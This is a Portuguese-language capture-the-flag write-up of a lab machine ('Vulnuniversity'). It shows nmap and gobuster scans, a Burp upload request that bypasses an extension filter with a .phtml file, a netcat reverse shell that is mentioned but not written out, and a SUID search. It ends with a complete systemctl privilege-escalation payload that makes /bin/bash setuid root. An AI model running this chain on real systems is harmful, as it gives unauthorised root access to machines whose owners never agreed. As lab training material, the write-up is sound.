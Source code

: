 ### Definindo o IP da maquina investigada como variavel de sistema
```
export IP=10.10.28.119
```
### nmap 
---
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-26 15:16 EDT
Nmap scan report for 10.10.51.34 (10.10.51.34)
Host is up (0.22s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
---

### Servidor Web
Apache 2.4.18 rodando na porta 3333/tcp

### Dir Scan goburp
---
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.28.119:3333/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/26 21:29:10 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/internal (Status: 301)
---

### Aplicando o Burp
Usando o burp intruder sniper para testar payloads de extenções de arquivos validas, usando wordlist 
A extenção que passou foi .phtml
---
POST /internal/index.php HTTP/1.1
Host: 10.10.28.119:3333
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.28.119:3333/internal/index.php
Content-Type: multipart/form-data; boundary=---------------------------982683350619075981219127305
Content-Length: 5831
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------982683350619075981219127305
Content-Disposition: form-data; name="file"; filename="testel.phtml"
Content-Type: application/x-php
---

### Shell Reverse
Shell reverse feito usando o netcat

### Escalando privilegios
Arquivos com bit suid proucurados
```
find / -perm -4000 2>/dev/null

```
----
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
----
Vunerabilidade encontrada
https://gtfobins.github.io/gtfobins/systemctl/

### Dadndo root para o bash
´´´
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
´´´
